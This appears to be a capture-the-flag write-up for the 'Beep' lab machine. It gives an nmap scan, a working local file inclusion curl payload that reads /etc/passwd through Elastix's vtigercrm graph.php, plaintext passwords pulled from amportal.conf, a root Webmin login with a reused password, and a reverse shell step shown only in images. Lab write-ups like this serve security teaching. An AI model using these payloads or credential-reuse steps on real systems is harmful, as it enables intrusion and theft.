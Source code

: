 # Beep

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.1.226 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 22:53 EDT
Nmap scan report for 10.129.1.226
Host is up (0.0079s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
941/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Lots of ports open. We can start with the HTTP ports.

### Elastix

Port 443 has an Elastix instance:

<figure><img src="../../../.gitbook/assets/image (160) (5).png" alt=""><figcaption></figcaption></figure>

Elastix has a ton of exploits:

```
$ searchsploit elastix          
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                      | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities    | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilit | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion           | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                          | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                         | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution     | php/webapps/18650.py
```

Using the LFI exploit, we can confirm that it works by viewing `/etc/passwd`.&#x20;

```
$ curl -k 'https://10.129.1.226/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action' 
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
```

The exploit loads `/etc/amportal.conf` by default, and when viewed, we can find a few passwords:

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

We'll keep this for now.

### Webmin

Using `jEhdIekWmdjE`, we can login as `root` on Webmin on port 10000.&#x20;

<figure><img src="../../../.gitbook/assets/image (166) (4).png" alt=""><figcaption></figcaption></figure>

With access to Webmin, we actually already have full control over the machine. As such, we can create a scheduled command that would give us a reverse shell.

<figure><img src="../../../.gitbook/assets/image (152) (5).png" alt=""><figcaption></figcaption></figure>

We would then catch a reverse shell after waiting a minute.&#x20;

<figure><img src="../../../.gitbook/assets/image (157) (6).png" alt=""><figcaption></figcaption></figure>

Rooted!
